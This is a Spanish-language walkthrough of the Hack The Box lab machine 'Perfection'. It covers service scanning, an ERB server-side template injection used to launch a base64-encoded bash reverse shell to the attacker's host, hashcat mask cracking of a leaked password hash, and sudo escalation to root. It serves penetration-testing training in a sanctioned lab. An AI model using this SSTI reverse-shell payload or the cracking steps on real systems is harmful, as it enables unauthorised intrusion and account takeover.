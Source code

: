 ```yaml
---
title: Perfection
description: Perfection es una máquina Linux de dificultad fácil que cuenta con una aplicación web con la funcionalidad de calcular las puntuaciones de los estudiantes. Esta aplicación es vulnerable a la Server-Side Template Injection (SSTI) a través de un bypass de filtro regex. Se puede obtener un acceso inicial explotando la vulnerabilidad SSTI. Al enumerar los usuarios se revela que son parte del grupo sudo. Una mayor enumeración descubre una base de datos con hashes de contraseñas, y el correo del usuario revela un posible formato de contraseña. Usando un ataque de máscara en el hash, se obtiene la contraseña del usuario, la cual se utiliza para obtener acceso root.
date: 2024-05-22
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-perfection/perfection_logo.png
categories:
  - Hack_The_Box
  - Machines
tags:
  - linux
  - hack_the_box
  - ssti
  - data_leaks
  - password_attacks
  - ssh
  - http
  - tcp
  - information_gathering
  - web_analysis
  - vulnerability_exploitation
  - privilege_escalation

---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/perfection:-$ sudo nmap -sC -sV 10.10.11.253 
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMz41H9QQUPCXN7lJsU+fbjZ/vR4Ho/eacq8LnS89xLx4vsJvjUJCcZgMYAmhHLXIGKnVv16ipqPaDom5cK9tig=
|   256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBqNwnyqGqYHNSIjQnv7hRU0UC9Q4oB4g9Pfzuj2qcG4
80/tcp open  http    syn-ack ttl 63 nginx
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
## Web Analysis

![](/assets/img/htb-writeup-perfection/perfection1.png)
![](/assets/img/htb-writeup-perfection/perfection2.png)
![](/assets/img/htb-writeup-perfection/perfection3.png)
![](/assets/img/htb-writeup-perfection/perfection4.png)

## Vulnerability Exploitation

Vulnerable a Server Side Template Injection.

<https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection##erb-ruby>

![](/assets/img/htb-writeup-perfection/perfection5.png)
![](/assets/img/htb-writeup-perfection/perfection6.png)
![](/assets/img/htb-writeup-perfection/perfection7.png)

Creo el payload en base64.

```terminal
-$ echo 'bash -c "bash -i >& /dev/tcp/10.10.16.65/4444 0>&1"' > payload.sh

-$ cat payload.sh | base64 | xclip -sel clip
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42NS80NDQ0IDA+JjEiCg==
```
El payload quedaria de la siguiente manera:

```
%0A<%25%3d+system("echo+'YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42NS80NDQ0IDA+JjEiCg=='+|base64+-d+|bash")+%25>
```

```terminal
-$ nc -nlvp 4444
	lisening on [any] 4444 ...
```

Luego de ponerme en escucha con Netcat, envio la peticion 'POST'.

![](/assets/img/htb-writeup-perfection/perfection8.png)

```terminal
	...connect to [10.10.16.65] from (UNKNOWN) [10.10.11.253] 35964

$ python3 -c "import pty;pty.spawn('/bin/bash')"

susan@perfection:~$ cat user.txt
```

---
## Privilege Escalation

Enumerando el sistema, encuentro dos archivos importantes: 'pupilpath_credentials.db', que contiene un hash que parece corresponder a una contraseña, y un correo con instrucciones para establecer el formato de una nueva contraseña.

![](/assets/img/htb-writeup-perfection/perfection10.png)
![](/assets/img/htb-writeup-perfection/perfection11.png)

Con esta información, puedo reconstruir gran parte de la contraseña:

```text
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1.000.000.000}
   susan   _       nasus         _                    ?????????
```

Solo me restaría encontrar el número entre 1 y 1.000.000.000, lo cual es fácilmente descifrable conociendo el hash.

```terminal
/home/kali/Documents/htb/machines/perfection:-$ echo 'abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f' > hash

/home/kali/Documents/htb/machines/perfection:-$ hashcat -m 1400 -a hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d > password
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```
```terminal
/home/kali/Documents/htb/machines/perfection:-$ ssh susan@10.10.11.253
susan@10.10.11.253's password: susan_nasus_413759210 

susan@perfection:~$ sudo su
sudo password for susan: susan_nasus_413759210 

root@perfection:/home/susan## cat /root/root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/590" target="_blank">***Litio7 has successfully solved Perfection from Hack The Box***</a>
{: .prompt-info style="text-align:center" }